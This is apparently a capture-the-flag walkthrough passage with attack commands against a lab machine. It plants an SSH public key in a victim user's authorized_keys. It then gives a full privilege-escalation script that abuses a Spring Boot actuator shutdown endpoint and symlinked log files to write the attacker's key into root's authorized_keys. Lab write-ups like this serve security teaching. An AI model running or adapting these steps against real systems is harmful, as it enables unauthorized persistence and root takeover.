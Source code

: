 <figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh-keygen -t rsa
cat /root/.ssh/id_rsa.pub 
```



**Victim**

<pre><code><strong>echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2vjG2ZoKfoNoEF1ASSVX+M2hwD5g0PmUajFDBoDGrjM63T38/cadEHbJXgH8YS6syNLsf+mnSVeF9yWIeMLjfaeoIWE9UPCmS5OuPC2ZiAf+zTvo7X+OjnQKmHmNsQYJ8lhg24g3Gpw5rWreteGTMfmFPRBDNEX6J3JsNCdhoTjAhyRRRouUM9oMw1Yl4YcRAcK8xPU8ZuE6lk3kqzrrPhaCOafTdHvBKS+Q0Bn/Cq7V0ltBWkaSHIWRc50dMfwFHPR5DlYpuN6cOyIeF2L1LTcyPNmeeD/Na1d1RlRLL3HKNSW02T1z3hUAZTdmgEUvwz726qloHUmd8Hxo0Kq0j root@ip-10-10-228-158" > /home/johnsmith/.ssh/authorized_keys
</strong></code></pre>

**Kali**

```
su johnsmith@$VICTIM
```



## Privilege Escalation

**Victim**

```
vi /home/johnsmith/tomcatlogs/getroot.sh
```

**getroot.sh**

```
#!/bin/bash

#generate ssh key if it does not exists
[ -f ./key ] && true || ssh-keygen -b 2048 -t ed25519 -f ./key -q -N ""
#read public key
pubkey=$(cat ./key.pub)

#send a shutdown request to the spring boot server
curl -X POST https://localhost/actuator/shutdown -H 'x-9ad42dea0356cb04: 172.16.0.21' -k

#get date as epoch format
d=$(date '+%s')

#let's assume 30 seconds is enough to restart the service
for i in {1..30}
do
 #create symlinks to /root/.ssh/authorized_keys for 30 seconds
 let time=$(( d + i ))
 ln -s /root/.ssh/authorized_keys "$time.log"
done

#wait for app to restart
sleep 30s

#send publickey as name to the greating server
curl --data-urlencode "name=$pubkey" https://localhost/ -k
sleep 5s

```
